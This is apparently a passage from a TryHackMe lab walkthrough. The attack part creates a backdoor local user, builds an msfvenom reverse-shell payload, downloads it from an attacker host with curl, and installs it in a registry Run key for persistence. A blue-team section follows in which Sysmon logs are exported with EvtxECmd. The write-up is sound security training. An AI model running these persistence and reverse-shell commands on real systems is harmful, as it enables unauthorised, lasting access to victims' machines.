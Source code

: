 In order to maintain persistence in the system, we will use the registry run keys and create a local user account for it.
Thanks to the privilege escalation step, we know have **SYSTEM** privileges which is required by the *Engagement Specifications* for creating the run key persistence.

We first need to create a local user named **terry** and set a password :
```shell
net user terry /add
net user terry !p4ssw0rdt3rry
```

Then, we need to transfer the reverse shell payload from the attacker machine to the target machine in `C:\Windows\Temp`. For that, I created another payload using **msfvenom** on a different port (**4450** this time).

```shell
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LOCAL LPORT=4450 -f exe -o shellpersistence.exe
 cd "C:\Windows\Temp"
 curl http://<LOCAL_IP>:8000/shellpersistence.exe -o shell.exe
```

After that, we can create the *Run Key* as the system user with the backdoor :

```shell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v shell /t REG_SZ /d "C:\Windows\Temp\shell.exe" /f
```

Once we did that, if we launch the **checker.exe** binary in the Administrator's desktop, then we will get the last flag for this part.

![checkflag](/assets/img/tryhackme/walkthrough/mousetrap/13.png)

# Blue : Time to Catch Terry

> Now that we've finished the attack, we need to start the blue part and investigate the logs generated from the same chain attack.

In this part, we will user **Timeline Explorer** instead of **SysmonView**. As said in the guidelines, we first must extract the logs in CSV format using **evtxcmd**.

On *Powershell* in `C:\Users\Administrator\Desktop\EvtxECmd` :

```shell
.\EvtxECmd.exe -f "C:\Windows\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx" --csv $HOME/Desktop --csvf Sysmon.csv
```

We wait a little bit and then a **CSV file** appears on the desktop :

![sysmoncsv](/assets/img/tryhackme/walkthrough/mousetrap/14.png)
